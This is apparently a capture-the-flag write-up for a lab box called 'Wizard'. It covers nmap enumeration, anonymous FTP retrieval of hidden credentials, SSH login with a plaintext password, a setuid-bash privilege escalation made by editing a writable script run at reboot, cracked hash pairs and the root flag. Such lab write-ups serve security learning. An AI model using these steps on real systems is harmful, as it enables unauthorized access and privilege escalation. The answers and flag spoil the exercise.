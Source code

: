 # Wizard

## Enumeration
```bash
└─$ nmap  -sV -A -p- -sC  10.10.197.180
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-20 14:30 BST
Nmap scan report for 10.10.197.180
Host is up (0.054s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.37.214
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3f:15:19:70:35:fd:dd:0d:07:a0:50:a3:7d:fa:10:a0 (RSA)
|   256 a8:67:5c:52:77:02:41:d7:90:e7:ed:32:d2:01:d9:65 (ECDSA)
|_  256 26:92:59:2d:5e:25:90:89:09:f5:e5:e0:33:81:77:6a (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
## Exploitation
```bash
ftp 10.10.197.180

get .hidden
cd ...
get reallyHidden
```

### On the ftp server I found the hagrid creds so i used it
```bash
sshpass -p 'IAlreadySaidTooMuch' ssh hagrid@10.10.197.180

Matching Defaults entries for hagrid on hogwarts:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hagrid may run the following commands on hogwarts:
    (root) NOPASSWD: /sbin/reboot
```
```bash
cd /home/harry
 
cat .ssh/id_rsa.pub :
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGY+dwBeKw2NtTbGLN+3hpg+qZ9ebXvfkU+UZ/iP0TFmGWaYM0hFyE9oVSoldBmLmvJAfpjFk/kgglcQ0r5rhahEPI+jIYr/retdOf8hZYpCRr21DbGt2fLF3Bu2Io/Uvhur/i9Tc5RwD5pgfGqHKrf1qul5x4dWK36NU+uIeIIDveTuAcKCmTBZzM1rkwwaj7UKDiJ/N9+/i6E+TEEsuXd/isF/zhGa4oQTLpthn79Y4SAeV+SzmeAWeJbvHZHe/KrvHIOvCJcSN9bjJh76QuIZnLKTWJrscaE0qkhG5890l1P6s0auNgUuOHN5ZgGYfHsmSGQRQUhXHplXXL6CKF alice@looking-glass
```
## Privilege Escalation

### I found a script, I used his vulnerability rights
```
vim /home/hagrid/hut.sh

cp /bin/bash /home/hagrid
chmod +xs bash

sudo -u root /sbin/reboot
```

```bash
cat dumbledore.txt : 
e1f22cea2a1c41f047b36b505a6aede84a848209c69505ac17ffdaebd7ba63c98e69f68f755134d7b94d47d0c86c1aea72f39fa4e89457cf8b25f19cd1b2dd33 : peek

3984d0b5033258950d886bc760a867399e57d8cc396c74beeaefc51168ccc7d11369e882d2e591619c42192102d550fdebb59db528f88bb46cc1a33a30b0ec0a : into

1f4be9bd3c61e621ef43bb2e0a2d7836786f730e4e0e6aa546899bceab0571904dfc6efc94c1324b1a22ae446f0a995b533054b1dbd09d0cda03e0985786d59a : this

c9f4875d9269814e2ddf825ce769cb77702034225818d8cad8d46c6483693fa28b8d4e3e053d1facbd774b1fc5a2b4cc31ef41a1129e58fc149d383dc2f1b647 : fine

e75baca2466b6805bdcfc52a12160ffaaf05677dd947c5b3019710d43ea18010fcb6c9ec0cde94efcb23a68bf9c7595798e77f4ff0602f468377d15392465b69 : list

de6bcbd90ff00c604a836fe2a0959c6a86aeabd440d8982970613edff3cd27996cd4a21c005e4dd4dca89c9a5d7a46fa9d97d2b220521dddf3b376fd04f2d0ba : and

7afc42427607f5171b9db17b38c3953ad5e614955cedbba9cfb97a276f3f3bd83fcfe61bdbfc799ca83865e446f3ae47998a624fd7316e7e56f7b27c9d67f150 : maybe

263adce0f04ee1eb3e75528ed5251724906bdd44c4265a1cd1185af010a4561e153833d1ea46df69764f2ece8e33199f8d787bf39cc51ebb406f15480c7e780e : you

7f5a8bf8b1779e4802c8e86dd1ea8e096be633d64eb8b5610ae9267af670734de1bf740427d05d454f5d4080aedf2b0821c1f338cd507e9b0dc9a0145bbff303 : will

806b977f3edfeda024f63584cc232c7b53ca0bba09cf9818346070f6489e775232f19d33390a78ba14f301a41a0c6994c2f7d95be6f6faeff9243f8e38c131f7 : find

1f40fc92da241694750979ee6cf582f2d5d7d28e18335de05abc54d0560e0f5302860c652bf08d560252aa5e74210546f369fbbbce8c12cfc7957b2652fe9a75 : a

c9f4875d9269814e2ddf825ce769cb77702034225818d8cad8d46c6483693fa28b8d4e3e053d1facbd774b1fc5a2b4cc31ef41a1129e58fc149d383dc2f1b647 : fine

b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86 : password

496e20666163742c2074686973207761732073696d706c652c207472756c792c207468652070617373776f72642069732042794d65726c696e4265617264210a : In fact, this was simple, truly, the password is ByMerlinBeard!
```
### After decrypt the hashes, I got the dumbledore password
```
su dumbledore : ByMerlinBeard!
```

### I launch a linpeas and I found the harry ssh private key

### Connect as harry with id_rsa key
```bash
./linpeas

sudo -h strawgoh /bin/bash
```

### I used cyberchef with magic to decrypt the root flag hash (53565a4a52564d324d315648546b56474e6a564455303957533064525746705353314a5156454e4f537a6448556c425555553161565539574d6b5244576c4e57536c4a5156456b7a5530564d4e544a45527a5255553064464e45565a5454493354314a5652454d7a556c705156555a425054303950513d3d): 

## Root FLAG
Flag : EPI{t3H_tRuTh_1T_15_4_834ut1fUL_4nD_t3rr18L3_th1n9}



